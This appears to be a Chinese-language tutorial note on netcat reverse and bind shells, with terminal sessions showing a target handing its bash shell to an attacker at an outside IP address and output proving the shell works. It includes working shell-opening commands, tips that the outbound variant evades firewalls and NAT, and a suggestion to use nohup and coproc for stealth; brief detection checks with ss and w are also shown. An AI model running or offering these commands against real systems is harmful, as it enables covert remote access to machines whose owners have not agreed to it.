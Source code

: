### reverse shell

> 可以结合nohup 和 coproc 进一步增加隐蔽性和可用性

**positive / attacker主动建立连接**

这种方式会受target的防火墙的影响(防火墙可以配置禁止对外监听端口)。同时因为在建立TCP连接前target会一直监听，也会增加reverse shell暴露的风险。

```
#target，target将自己的shell反弹给attacker
root in ~ λ nc -l -p 10086 -c '/bin/bash -i 2>&1'

#attacker，主动建立连接
root in /etc/apt λ nc 8.135.0.171 10086

#attacker
root in /etc/apt λ nc 8.135.0.171 10086                       
root@ubuntu18:~# pwd
pwd
/root
root@ubuntu18:~# 

```

没有建立ESTABLISHED连接之前，可以在监听的端口中查看到

```
root in ~ λ ss -ltp | grep 10086
LISTEN   0         1                   0.0.0.0:10086             0.0.0.0:*       users:(("nc",pid=10880,fd=3))
```

使用`w`同样也可

```
root in ~ λ w
 16:19:15 up 22:19,  3 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
root     pts/0    115.233.222.34   15:57    3:44   0.33s  0.00s nc -lk -p 10086
root     pts/1    115.233.222.34   16:16    0.00s  0.10s  0.00s w
cpl      pts/3    115.233.222.34   14:45    1:30m  0.07s  0.07s -zsh
```

**passive / attacker被动建立连接**

attacker和target可以互换，让attacker充当nc服务端。这种方式的优点是，target无需显示的开启监听，==不受防火墙和NAT的影响。==

```
#attacker，被动建立连接
root in ~ λ nc -lk -p 10086

#target，将自己的shell反弹给attacker
root in /tmp λ nc 8.135.0.171 10086 -c '/bin/bash -i 2>&1'

#attacker

Sun 28 Feb 2021 01:22:31 PM CST

 ┌─────(6 root)─────(/tmp)
 └> $ pwd
pwd
/tmp

```
